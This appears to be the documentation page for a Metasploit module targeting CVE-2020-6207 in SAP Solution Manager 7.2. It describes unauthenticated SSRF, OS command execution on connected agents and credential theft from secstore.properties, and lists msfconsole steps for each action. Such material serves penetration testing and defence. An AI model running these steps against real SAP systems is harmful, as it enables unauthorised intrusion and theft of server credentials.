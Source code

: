 ## Vulnerable Application
This module exploits the CVE-2020-6207 vulnerability within the SAP EEM servlet (tc~smd~agent~application~eem) of
SAP Solution Manager (SolMan) running version 7.2. The vulnerability occurs due to missing authentication
checks when submitting SOAP requests to the /EemAdminService/EemAdmin page to get information about connected SMDAgents,
send HTTP request (SSRF), and execute OS commands on connected SMDAgent. Works stable in connected SMDAgent with Java version 1.8.

Successful exploitation of the vulnerability enables unauthenticated remote attackers to achieve SSRF and execute OS commands from the agent connected
to SolMan as a user from which the SMDAgent service starts, usually the daaadm.

If a connected SMDAgent is also vulnerable to CVE-2019-0307, unauthenticated remote attackers can obtain its
secstore.properties file, which contains the credentials for the SAP Solution Manager server to which this SMDAgent is connected.

CVE-2019-0307 vulnerability paper: [The Agent Who Spoke Too Much][1]

CVE-2020-6207 vulnerability paper: [An Unauthenticated Journey to Root][2]

### Application Background
In SAP landscapes, SolMan could be compared to a domain controller system in the Microsoft world.
It is a technical system that is tightly connected to all other SAP systems with high privileges.
Once an SAP system is connected to the solution manager, it receives the name of a "managed" or "satellite" system.
As an administration solution, SolMan is intended to centralize the management of all systems within the landscape by
performing actions such as implementing, supporting, monitoring and maintaining the enterprise solutions.

### Installation Steps
Steps to install, configure and manage SolMan can be found online at [this page][3].

Once set up and configured, the instances will be vulnerable on the default HTTP port 50000.

## Verification Steps

1. Start msfconsole
1. Do: `workspace [WORKSPACE]`
1. Do: `use auxiliary/admin/sap/sap_2020_6207_solman_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `set action LIST`
1. Do: `run`
1. Verify that a list of connected agents was returned.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set SSRF_METHOD [GET, POST, PUT, DELETE, PATCH, ...]`
1. Do: `set SSRF_URI [SSRF uri, example - http://1.1.1.1/test.html]`
1. Do: `set action SSRF`
1. Do: `run`
1. Verify that the HTTP request from the connected agent has been sent.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set COMMAND [OS command, example - ping -c 4 1.1.1.1]`
1. Do: `set action EXEC`
1. Do: `run`
1. Verify that the OS command has been executed on the connected agent.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `set SRVHOST [Local IP]`
1. Do: `set action SECSTORE`
1. Do: `run`
1. Verify that the credentials for Solution Manager have been obtained.


[1]: https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf
[2]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/